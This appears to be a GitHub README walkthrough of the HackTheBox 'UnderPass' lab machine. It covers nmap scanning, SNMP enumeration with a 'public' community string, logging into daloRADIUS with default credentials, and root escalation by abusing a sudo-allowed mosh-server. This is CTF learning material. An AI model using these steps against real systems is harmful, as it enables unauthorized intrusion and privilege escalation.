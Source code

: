 # UnderPass-HTB-Walkthrough
# Port Scanning
for my HTB machine I was using the IP Address 10.10.11.48 , before doing a nmap scan you will need to add the IP and host in /etc/hosts/ directory and save it like this 10.10.11.48.underpass.htb

command to acccess /etc/hosts:

- sudo nano /etc/hosts/
- sudo cat /etc/hosts/ (This is good to always double check your work before moving on)

Now, moving on to the nmap scaning to find open ports:
- nmap -sV -Pn 10.10.11.48

damn this didn't give me anything good, so i run a TCP and UPD scan to see all the other open ports:
- sudo nmap -sU underpass.htb -Pn


# Harvesting using snmpbulkwalk
"snmpbulkwalk" is a command used to retrieve a large amount of data from a network device using the SNMP protocol, by sending a single "GETBULK" request to efficiently retrieve a whole tree of information (like a subtree within the MIB) from the device, making it faster than the standard "snmpwalk" command which queries one variable at a time; essentially, it allows you to efficiently gather a large set of data from a network device with a single SNMP request. 

Command: 

- snmpbulkwalk -c public -v2c underpass.htb

Output

- steve@underpass.htb
- UnDerPass.htb is the only daloradius server in the basin!
this information give me some information about the machine and after some looking into about daloradius severs, I found out a website with default login credentials.

Website: http://underpass.htb/daloradius/app/operators/login.php





# Root Flag
using the command sudo -l this help me list the current user privileges level , I find that the mosh-server doesnot need root privilege and I am able to go inside this directory.

using these command one by one will give you access to mosh-server:

- sudo /usr/bin/mosh-server new -p 61113
- MOSH_KEY=<Key> mosh-client 127.0.0.1 61113

